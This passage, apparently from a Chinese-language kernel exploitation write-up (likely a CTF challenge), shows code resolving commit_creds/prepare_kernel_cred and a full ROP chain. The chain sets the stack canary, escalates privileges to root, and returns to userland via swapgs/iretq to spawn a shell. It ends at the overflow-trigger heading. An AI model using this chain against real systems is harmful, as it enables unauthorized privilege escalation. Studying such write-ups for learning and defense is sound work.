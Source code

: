         if(!(prepare_kernel_cred & commit_creds))
        {
            puts("[*]Error!");
            exit(0);
        }
    
        printf("[*] commit_creds : 0x%lx\n", commit_creds);
        printf("[*] prepare_kernel_cred : 0x%lx\n", prepare_kernel_cred);
        return ;
    
    }
    ```

  * 构造的RopChain

    ```
    	size_t rop[0x100];
    	int i;
    	for(i = 0; i < 10; i++)
    	{
    		rop[i] = 0x11223344;
    	}
    	rop[8] = cookie;					// set canary
    
    	rop[i++] = pop_rdi_ret;							// pop  rdi; ret
    	rop[i++] = 0;
    	rop[i++] = prepare_kernel_cred;
    
    	// 这一段有些难理解
    	// 第一次考虑可能是注释中的错误方式
    	// 主要是因为 call 操作的副作用 有 "push next_addr"，会破坏原有的rop chain, 所以
    	//	利用 call "pop rcx; ret"抵消这种副作用，并返回原有的ropchain执行。
    	/*
    	rop[i++] = pop_rdx_ret;						// rdx ==> pop_rcx_ret
    	rop[i++] = commit_creds;						
    	rop[i++] = mov_rdi_rax_call_rdx; 			// call ==> pop rcx ; ret 
    	*/
    	
    	rop[i++] = pop_rdx_ret;						// rdx ==> pop_rcx_ret
    	rop[i++] = pop_rcx_ret;						
    	rop[i++] = mov_rdi_rax_call_rdx; 			// call ==> pop rcx ; ret 
    	rop[i++] = commit_creds;
    
    	rop[i++] = swapgs_pop_ret;					// swapgs; 
    	rop[i++] = 0;
    	rop[i++] = iretq_ret;
    	rop[i++] = (size_t)get_shell;
    	rop[i++] = user_cs;
    	rop[i++] = user_rflags;
    	rop[i++] = user_sp;
    	rop[i++] = user_ss;
    
    ```

  * 触发漏洞溢出
